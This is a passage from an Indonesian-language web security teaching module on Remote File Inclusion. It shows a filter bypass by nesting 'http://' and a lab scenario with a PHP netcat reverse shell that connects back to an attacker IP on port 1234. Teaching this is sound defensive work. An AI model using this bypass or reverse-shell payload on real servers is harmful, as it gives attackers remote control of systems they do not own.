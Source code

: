 - Ketika menggunakan cara lain seperti hthttp://tp://google.com

![RFI4](https://github.com/arsitektur-jaringan-komputer/Modul-Web-App-Security/blob/master/src/RFI4.png?raw=true)

- Keamanan berhasil dibypass


#### Contoh kejadian dimana penyerang bisa masuk ke dalam server.
Berikut saya memiliki 2 buah IP:

IP server 192.168.111.129
IP penyerang 192.168.111.128

Berikut contoh isi file dalam server:

![ListFileFI](https://github.com/arsitektur-jaringan-komputer/Modul-Web-App-Security/blob/master/src/ListFileFI.png?raw=true)

Dalam server penyerang, telah disiapkan file bernama info.txt untuk masuk kedalam server seperti berikut:

```php
<?php system('nc 192.168.111.128 1234 -e /bin/bash');?>
```
Kode ini memiliki fungsi untuk membuka koneksi dari server ke server penyerang, memberikan akses server kepada penyerang di port 1234.
